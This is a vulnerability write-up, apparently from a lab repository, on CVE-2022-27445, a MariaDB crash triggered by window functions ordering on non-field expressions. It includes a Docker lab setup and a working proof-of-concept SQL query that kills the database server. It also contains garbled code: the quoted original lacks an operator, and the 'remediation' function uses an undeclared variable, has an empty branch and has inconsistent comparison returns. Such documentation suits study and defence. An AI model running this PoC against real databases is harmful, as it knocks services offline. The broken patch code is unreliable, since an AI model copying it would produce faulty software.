




# CVE-2022-27445 CWE-None MariaDB DoS via Segmentation Fault

## Vulnerability Background
- **MariaDB :** An open-source relational database management system developed by the founders of MySQL, highly compatible with MySQL. It features high performance, high security, and ease of use, supporting multiple storage engines to ensure reliable data storage and efficient read/write operations. At the same time, MariaDB also possesses powerful query optimization capabilities, enhancing database performance and being widely used across various industries, providing strong support for data storage and management.
- In SQL queries, if window functions (such as `row_number() over (...)`, `rank() over (...)`) or complex multi-layer sorting optimizations are involved, the database engine will try to analyze all `ORDER BY` or `PARTITION BY` conditions in SQL to determine which sorting is "compatible" or "equivalent" and which are different. This allows for the reuse of existing sorting results, reduces duplicate sorting, and improves query efficiency.

## Vulnerability Mechanism
Contains segmentation errors through the component sql/sql_window.cc.

When handling window function sorting conditions, MariaDB mistakenly assumes that all sort expressions are field types (Item_field), but in fact, SQL supports arbitrary expressions as sorting conditions. When expressions appear in sorting (such as avg(1)+3), the underlying code forces them to be treated as field types, causing illegal type conversion and memory access, ultimately triggering a database process crash (Segmentation Fault).

## Vulnerability Location
Analysis of MariaDB 10.6.3 source code:

In the sql\sql_window.cc file, line 427, `compare_order_elements` function is used to compare the "order" or "equivalence" between two sorting elements (a single expression in the ORDER BY/PARTITION BY clause).

In line 433, the `compare_order_elements()` function assumes that the input expressions for sorting elements (ORDER BY/PARTITION BY) are all `Item_field` type (i.e., fields that reference temporary tables). But in practice, SQL supports more complex expressions as sorting conditions, such as `ORDER BY avg(1)+3`. In this case, item1 and item2 may not be `Item_field`, but rather Item derived types from various computational expressions. As long as any ORDER sorting condition is not a field type (for example, window function sorting uses the expression: `ORDER BY avg(1)+3`), then item1 or item2 is **not Item_field type and is declared to fail.

Once a user submits a window function sorting condition containing a non-field type expression, the above assertion is triggered (Debug version), while the Release version will undergo type restriction or invalid pointer dereference, ultimately causing crashes (Segmentation Fault).

```cpp
// sql_window.cc file
static int compare_order_elements(ORDER *ord1, ORDER *ord2)
{
    // Check whether the two ORDER objects (sorting conditions) are exactly the same (item pointer content and sorting direction are the same)
  if (*ord1->item == *ord2->item && ord1->direction == ord2->direction)
    return CMP_EQ;
    // Extract the actual Item corresponding to these two ORDERS (i.e., the sorting field/expression)
  Item *item1= (*ord1->item)->real_item();
  Item *item2= (*ord2->item)->real_item();
    // Assuming both are field types (Item::FIELD_ITEM)
    // If not, it is declared a failure (debug mode crashes; release mode may have memory errors).
  DBUG_ASSERT(item1->type() == Item::FIELD_ITEM &&
              item2->type() == Item::FIELD_ITEM); 
    // Differentiate the indexes of fields (i.e., determine the order of fields in the table structure)
  int cmp= ((Item_field *) item1)->field->field_index 
           ((Item_field *) item2)->field->field_index;
    // If the subscripts are the same, compare the sorting directions; Otherwise, the field order is returned directly
  if (cmp == 0)
  {
    if (ord1->direction == ord2->direction)
      return CMP_EQ;
    return ord1->direction > ord2->direction ? CMP_GT : CMP_LT;
  }
  else
    return cmp > 0 ? CMP_GT : CMP_LT;
}
```

## Remediation
The patch adds improved type judgment. A unique number (`win_spec_number`) is introduced for each window spec as a fallback method for sorting weights. Wherever it involves comparing with window specifications/expression order, add `win_spec_number` as an auxiliary parameter.

For non-`Item_field` type expressions, the fixed code no longer attempts to force pointers but sorts them by "weight" (the window specification number).

```cpp
static int compare_order_elements(ORDER *ord1, int weight1, ORDER *ord2, int weight2)
{
  if (*ord1->item == *ord2->item && ord1->direction == ord2->direction)
    return CMP_EQ;
 	Item *item1= (*ord1->item)->real_item();
    Item *item2= (*ord2->item)->real_item();
    
/******************************** Additional Section: ****************8************/
    bool item1_field= (item1->type() == Item::FIELD_ITEM);
    bool item2_field= (item2->type() == Item::FIELD_ITEM);

    if (item1_field && item2_field) {
      // The original field is quite logical
    } else if (item1_field && !item2_field) {
      return CMP_LT;
    } else if (!item1_field && item2_field) {
      return CMP_LT;
    } else {
      // All expressions are sorted by win_spec_number to prevent crashes
      if (weight1 != weight2)
        cmp= weight1 - weight2;
      else
        cmp= item1 - item2; // In theory, it won't happen
    }
/ *********************************************************************/
     if (cmp == 0)
  {
    if (ord1->direction == ord2->direction)
      return CMP_EQ;
    return ord1->direction > ord2->direction ? CMP_GT : CMP_LT;
  }
  else
    return cmp > 0 ? CMP_GT : CMP_LT;
}
```

## Affected Versions
**Affected version:** MariaDB:

- 10.2.0 to 10.2.43
- 10.3.0 to 10.3.34
- 10.4.0 to 10.4.24
- 10.5.0 to 10.5.15
- 10.6.0 to 10.6.7
- 10.7.0 to 10.7.3

## Environment Setup
Starting the Docker environment, MariaDB version is 10.6.3, administrator is root user, password is 12345, there is a database test_db, open port 3306, and the container contains PoC file CVE-2022-27445-PoC.sql.

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Enter the container command line

```bash
docker exec -it mariadb-10.6.3 bash
```

2. Log in with the root user and connect to the database test_db, password 12345

```sql
mariadb -u root -p test_db
```

3. There are two methods to execute PoC commands; the first is recommended.

First: Manually executing PoC code reveals that containers are disconnected and exited;

```sql
CREATE TABLE t1 ( id varchar(10));
INSERT INTO t1 values (1),(2),(3);
SELECT
  dense_rank() over (ORDER BY avg(1)+3),
  rank()       over (ORDER BY avg(1))
FROM t1
GROUP BY nullif(id, 15532);
```



Second: When executing the PoC file CVE-2022-27445-PoC.sql, the command line will freeze continuously. After Ctrl+C exits, you will see the connection is disconnected.

```sql
source CVE-2022-27445-PoC.sql
```



4. Check the MariaDB container crash log; you can see `[ERROR] mysqld got signal 11 ;`, which is a critical error triggered by a segment error.

```bash
docker logs mariadb-10.6.3
```



## PoC Analysis

```sql
CREATE TABLE t1 ( id varchar(10));

INSERT INTO t1 values (1),(2),(3);

SELECT
	-- Call the window function dense_rank(), sorted by avg(1)+3
	-- avg(1) is an aggregate expression that itself is a constant (AVG always results in 1), but it is added by 3 to become an expression
  dense_rank() over (ORDER BY avg(1)+3),
    -- Call the window function rank(), sorting based on avg(1)
  rank() over (ORDER BY avg(1))
FROM t1
-- Group by nullif(id, 15532).
-- Since id is 1/2/3, comparing with 15532 always returns the id itself
-- Grouping doesn't have much impact on the test itself; the main thing is to make the query syntax valid and the window function to be executed.
GROUP BY nullif(id, 15532);
```

Here, `ORDER BY avg(1)+3` and `ORDER BY avg(1)` are not simple fields, but expression types (Item_func/Item_sum), not `Item_field`. However, when comparing window function sorting conditions, MariaDB only supports field types** and internally forcibly treats any sorting condition as a field type (`Item_field`), causing type conversion errors.

## References
[NVD - CVE-2022-27445](https://nvd.nist.gov/vuln/detail/CVE-2022-27445)

[[MDEV-28081\] MariaDB SEGV issue - Jira](https://jira.mariadb.org/browse/MDEV-28081)

[[MDEV-19398\] Assertion `item1->type() == Item::FIELD_ITEM && item2->type() == Item::FIELD_ITEM' failed in compare_order_elements -  Jira](https://jira.mariadb.org/browse/MDEV-19398)

[MDEV-19398: Assertion `item1->type() == Item::FIELD_ITEM ... · MariaDB/server@ba4927e](https://github.com/MariaDB/server/commit/ba4927e520190bbad763bb5260ae154f29a61231#diff-cc8d5ea0d483d2544cf7b0be339ec614483b2b3e37db4af14aa13ba2d72f3f3b)
